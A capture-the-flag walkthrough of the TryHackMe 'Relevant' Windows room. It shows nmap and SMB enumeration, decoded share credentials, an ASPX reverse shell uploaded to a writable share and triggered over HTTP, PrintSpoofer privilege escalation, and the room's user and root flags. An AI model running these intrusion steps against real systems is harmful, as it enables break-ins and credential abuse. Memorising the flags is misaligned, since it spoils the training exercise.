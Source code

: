 # Revenant

Room url: https://tryhackme.com/room/relevant

Windows Medium room 

Nmap Scan


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
└──╼ $nmap -sC -sV -oA nmap/relevant 10.10.51.178
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-01 00:38 IST
Nmap scan report for 10.10.51.178
Host is up (0.19s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2023-05-30T13:35:51
|_Not valid after:  2023-11-29T13:35:51
|_ssl-date: 2023-05-31T13:39:54+00:00; -5h29m57s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2023-05-31T13:39:15+00:00
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -4h05m57s, deviation: 3h07m50s, median: -5h29m57s
| smb2-time: 
|   date: 2023-05-31T13:39:14
|_  start_date: 2023-05-31T13:36:37
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-05-31T06:39:12-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.66 seconds
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



connecting via smbclient


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
└──╼ $smbclient -L 10.10.51.178
Password for [WORKGROUP\user]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
┌─[user@parrot]─[~/Desktop/hacking/tryhackme/relevant]
└──╼ $smbclient //10.10.51.178/nt4wrksv
Password for [WORKGROUP\user]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jul 26 03:16:04 2020
  ..                                  D        0  Sun Jul 26 03:16:04 2020
  passwords.txt                       A       98  Sat Jul 25 20:45:33 2020

		7735807 blocks of size 4096. 4936658 blocks available
smb: \> get password.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \password.txt
smb: \> get passwords.txt .
Error opening local file .
smb: \> get passwords.txt password.txt
getting file \passwords.txt of size 98 as password.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


password.txt

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
└──╼ $cat password.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


base64 decoding will give 2 usernames and password
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$


Checking `smbmap` to check permissions of all services

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
└──╼ $smbmap -H 10.10.51.178 -u bob -p '!P@$$W0rD!123'
[+] IP: 10.10.51.178:445	Name: 10.10.51.178                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	nt4wrksv                                          	READ, WRITE	
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


here `nt4wrksv` has READ, WRITE permission, we can abuse that

Now, it's time to get user.txt

1. get aspx shell from https://github.com/borjmz/aspx-reverse-shell
2. send that to smbclient via `put` command
3. Go to that url http://10.10.51.178:49663/nt4wrksv/shell.aspx and using `nc` we will get shell


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
C:\Users\Bob\Desktop>type user.txt
type user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation
1. PrintSpoofer is vulnerability - https://github.com/dievus/printspoofer
2. upload using smbclient and run the exploit
3. `PrintSpoofer.exe -i -c cmd`


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

